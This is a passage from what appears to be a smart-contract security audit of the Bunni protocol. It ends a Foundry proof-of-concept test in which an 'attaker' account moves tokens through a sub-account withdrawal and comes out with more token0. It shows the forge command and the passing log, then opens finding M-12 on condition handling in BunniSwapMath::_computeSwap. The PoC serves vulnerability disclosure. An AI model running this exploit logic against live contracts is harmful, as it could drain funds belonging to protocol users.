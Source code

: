 ```solidity
            vm.prank(attaker); bunniToken.transfer(subAccount, 1e18);
            vm.prank(subAccount); hub.withdraw(withdrawParams);
        }

        console.log("token0.balanceOf(attaker): %s", token0.balanceOf(attaker));
        console.log("token1.balanceOf(attaker): %s", token1.balanceOf(attaker));
        console.log("bunniToken.balanceOf(attaker): %s", bunniToken.balanceOf(attaker));
```

Run the PoC.

```bash
forge test -vvv --match-test testYttriumzzPoC0005
```

The result.

```bash
$ forge test -vvv --match-test testYttriumzzPoC0005
[⠢] Compiling...
No files changed, compilation skipped

Ran 1 test for test/BunniHub.t.sol:BunniHubTest
[PASS] testYttriumzzPoC0005() (gas: 5606772)
Logs:
  token0.balanceOf(attaker): 73616158154794097300
  token1.balanceOf(attaker): 0
  bunniToken.balanceOf(attaker): 100000000000000000000
  token0.balanceOf(attaker): 76254542339314687570
  token1.balanceOf(attaker): 10000000000000000000
  bunniToken.balanceOf(attaker): 90000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.10s (19.75ms CPU time)

Ran 1 test suite in 1.15s (1.10s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

# [M-12] Incorrect condition handling in `BunniSwapMath::_computeSwap()`

## Severity

**Impact:** Medium

**Likelihood:** Medium

## Description

In the `BunniSwapMath::_computeSwap` function, there is an issue with the condition handling at line `BunniSwapMath#L134`. Specifically, the `if` statement does not validate whether `naiveSwapResultSqrtPriceX96` is equal to `sqrtPriceNextX96`.
